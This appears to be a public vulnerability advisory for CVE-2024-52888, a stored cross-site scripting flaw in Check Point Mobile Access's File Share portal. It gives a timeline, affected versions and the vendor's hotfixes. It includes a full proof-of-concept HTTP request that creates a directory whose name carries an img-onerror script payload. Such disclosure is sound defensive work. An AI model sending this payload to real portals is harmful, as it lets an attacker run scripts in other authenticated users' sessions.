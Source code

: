 # CVE-2024-52888
Check Point Mobile Access portal File Share application - Cross-Site Scripting (XSS)

## Timeline
- Vulnerability reported to vendor: 13.11.2024
- Public disclosure: 27.04.2025

## Description

A Cross-Site Scripting (XSS) vulnerability has been reported in Check Point Mobile Access portal File Share application. This flaw permits the execution of malicious scripts within the application, potentially compromising its confidentiality and integrity. While the vulnerability does not affect the application’s availability, successful exploitation could lead to unauthorized access to sensitive information and unintended actions performed on behalf of authenticated users.

An authenticated attacker could create malicious file or directory names that, when accessed by another authenticated user, may trigger the portal to execute a script while displaying the directory or file properties.

Payload can be saved using following request:
```
POST /sslvpn/HFS/index.php?NFSaction=createDir&Server=[REDACTED]&Share=Portal_Share&dir=. HTTP/1.1
Host: [REDACTED] 
Cookie: [REDACTED] 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------21390880402331902083754323923
Content-Length: 367
Origin: [REDACTED] 
Connection: keep-alive


-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="dir"

.
-----------------------------21390880402331902083754323923
Content-Disposition: form-data; name="name"


zzz2"><img%20src=x%20onerror='alert(document.domain)'>
-----------------------------21390880402331902083754323923--
```

## Affected versions
* Check Point Mobile Access R81.10
* Check Point Mobile Access R81.20
* Check Point Mobile Access R82 

## Advisory
Check Point has addressed this issue in following fixes:
* Jumbo Hotfix Accumulator for R82 starting from Take 14
* Jumbo Hotfix Accumulator for R81.20 starting from Take 99
* Jumbo Hotfix Accumulator for R81.10 starting from Take 173
Users are strongly advised to apply the relevant security patches to mitigate this vulnerability. For detailed information and guidance, please refer to sk183055.

### References
* https://support.checkpoint.com/results/sk/sk183055
* https://support.checkpoint.com/results/sk/sk142952
* https://nvd.nist.gov/vuln/detail/cve-2024-52888
* https://www.cve.org/CVERecord?id=CVE-2024-52888
